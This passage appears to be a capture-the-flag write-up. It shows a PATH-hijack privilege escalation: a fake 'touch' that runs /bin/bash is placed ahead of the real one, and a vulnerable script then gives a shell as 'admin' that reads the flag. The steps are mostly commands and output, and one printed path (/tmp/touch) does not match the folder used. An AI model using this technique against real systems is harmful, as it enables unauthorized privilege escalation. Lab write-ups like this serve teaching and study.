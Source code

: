 I immediately spooted the "pathless" call to touch. The fact that "touch" is called without a full path means that I should be able to add a folder to my PATH and hijack the real "touch" with a custom script :

First, I tested the theory :

```bash
$ mkdir /tmp/h3xit
$ cd /tmp/h3xit
$ export PATH=/tmp/h3xit:$PATH
$ which touch
/usr/bin/touch
$ echo 'echo "path manipulation ftw"' > touch           
$ chmod +x touch
$ which touch
/tmp/touch
$ touch
path manipulation ftw
```

It worked, so let's setup the real thing :

```bash
$ echo -e '#!/bin/bash\n/bin/bash' > touch
$ cat touch
#!/bin/bash
/bin/bash
$ chmod +x touch
$ /my_very_special_script.o
id
uid=1000(admin) gid=33(www-data) groups=33(www-data)
$ ls -l /home/admin
total 4
-rw-r--r-- 1 root root 35 Feb  9 04:23 flag.txt
$ cat /home/admin/flag.txt
FLAG{5_la_track_est_enfin_finie_gj}
```

Thanks for reading <3

h3x
